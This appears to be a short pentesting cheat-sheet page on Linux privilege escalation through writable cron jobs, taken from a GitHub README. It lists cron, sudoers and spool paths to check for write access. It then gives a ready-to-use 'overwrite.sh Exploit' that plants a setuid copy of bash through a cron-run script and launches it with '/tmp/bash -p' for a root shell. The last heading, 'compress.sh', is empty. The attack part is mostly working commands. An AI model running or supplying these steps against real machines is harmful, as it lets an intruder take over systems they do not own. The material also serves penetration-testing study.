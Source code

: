 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
          cat /etc/crontab
          locate overwrite.sh
          
          
          
   ### Cron jobs

      Check if you have access with write permission on these files.   
      Check inside the file, to find other paths with write permissions.   

          ```powershell
            /etc/init.d
            /etc/cron*
           /etc/crontab
          /etc/cron.allow
         /etc/cron.d 
         /etc/cron.deny
          /etc/cron.daily
           /etc/cron.hourly
            /etc/cron.monthly
             /etc/cron.weekly
              /etc/sudoers
               /etc/exports
                /etc/anacrontab
                 /var/spool/cron
                   /var/spool/cron/crontabs/root
                   '''
          
          
          
          
   ## overwrite.sh Exploit
   
         echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
         chmod +x /home/user/overwrite.sh
         /tmp/bash -p




   ## compress.sh
   
     
